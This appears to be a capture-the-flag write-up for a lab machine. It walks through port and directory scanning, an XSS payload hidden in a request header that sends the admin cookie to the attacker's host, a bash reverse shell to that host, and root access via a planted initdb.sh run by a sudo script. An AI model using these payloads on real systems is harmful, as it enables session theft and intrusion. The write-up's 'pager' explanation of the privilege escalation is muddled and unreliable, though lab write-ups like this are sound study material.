


# Enumeration
## NMAP
```bash
nmap -sC -sV -Pn -p- 10.10.11.8 -T5  
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-26 10:01 EDT
Nmap scan report for 10.10.11.8
Host is up (0.046s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
5000/tcp open  http    Werkzeug httpd 2.2.2 (Python 3.11.2)
|_http-title: Under Construction
|_http-server-header: Werkzeug/2.2.2 Python/3.11.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.32 seconds
```
## Directory 
```bash
gobuster dir -u http://10.10.11.8:5000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -b 302,404
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.8:5000/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   302,404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/support              (Status: 200) [Size: 2363]
/dashboard            (Status: 500) [Size: 265]
Progress: 166564 / 220561 (75.52%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 166614 / 220561 (75.54%)
===============================================================
Finished
===============================================================
                                                                 
```

Going to the `dashboard` endpoint we get an unauthorized message. Maybe we can intercept the admin cookie in order to gain access to the page.

When we try an XSS attack via a form field we get back the Hacking attempt message with all the headers of the request. We can use BurpSuite to intercept the request and add the XSS attack on a Header or we can create a new Header with the XSS attack.

```bash
Hacking Attempt Detected

Your IP address has been flagged, a report with your browser information has been sent to the administrators for investigation.

Client Request Information:

Method: POST
URL: http://10.10.11.8:5000/support
Headers: Host: 10.10.11.8:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 92
Origin: http://10.10.11.8:5000
Connection: keep-alive
Referer: http://10.10.11.8:5000/support
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs;xss=<script>fetch("http://10.10.14.15:8000/?"+document.cookie);</script>
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```


Now we can access the dashboard endpoint by changing the cookie on our web browser.



Reverse shell

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.15/4444 0>&1'
```

Normal tty
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

```bash
dvir@headless:~/app$ sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
dvir@headless:~/app$ cat /usr/bin/syscheck

```

```bash
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

```bash
dvir@headless:~/app$ find / -type f -name initdb.sh 2>/dev/null
dvir@headless:~/app$ 
```

As we can see the `initdb.sh` script does not exists so if we create one of our own we could start the `syscheck` script. The vulnerability is our case is with the pager that the system uses. We can get a root shell back via the pager by entering /bin/bash as a command.

```bash
cd ~
nano initdb.sh
    #!/bin/bash
    bash
chmod +x initdb.sh
```
```bash
dvir@headless:~$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 1.9G
System load average:  0.00, 0.00, 0.00
Database service is not running. Starting it...
dvir@headless:~$ nano initdb.sh
dvir@headless:~$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 1.9G
System load average:  0.00, 0.00, 0.00
Database service is not running. Starting it...
ca^Ht^H^H^H
cat /root/root.txt
a7409de41a9df3ac0271593bd172a30
```